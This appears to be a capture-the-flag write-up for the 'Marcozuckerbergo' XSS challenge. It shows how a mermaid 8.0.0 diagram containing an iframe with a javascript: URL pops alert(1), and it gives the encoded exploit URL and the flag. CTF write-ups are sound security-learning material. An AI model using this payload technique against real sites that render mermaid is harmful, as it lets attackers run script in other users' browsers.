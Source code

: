 
## Title: Marcozuckerbergo
**Points:** 135  
**Solves:** 108

### Descriptions: 
Fine, I'll use a damn lib. Let's see if it's any better.

### Solution:

This is an XSS-challenge. You have to submit a url that pops `alert(1)` to get the flag.

We are presented with a webpage that takes input trought the GET-parameter `input`, url-decodes it and then feeds it into some javascript library for making tables called mermaid.

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/mermaid/8.0.0/mermaid.min.js"></script>
<script>mermaid.initialize({startOnLoad:false});</script>
```
```js
input = decodeURIComponent(location.search.match(/input=([^&#]+)/)[1]);

window.onload=function(){
  $("#markdown").text(input);
  $("#render").text($("#markdown").text());
  mermaid.init(undefined, $("#render"));
}
```

After some mindless googling I found this github issue: `https://github.com/typora/typora-issues/issues/2289`. It contained this mermaid-js xss-payload:

```js
graph LR
id1["<iframe src=javascript:alert('xss')></iframe>"]
````

I just modified it to do `alert(1)`.
Url submitted: `http://marcozuckerbergo-01.play.midnightsunctf.se:3002/markdown?input=graph%20LR%0Aid1%5B%22%3Ciframe%20src=javascript:alert(%271%27)%3E%3C/iframe%3E%22%5D`.

**Flag:** midnight{1_gu3zz_7rust1ng_l1bs_d1dnt_w0rk_3ither:(}
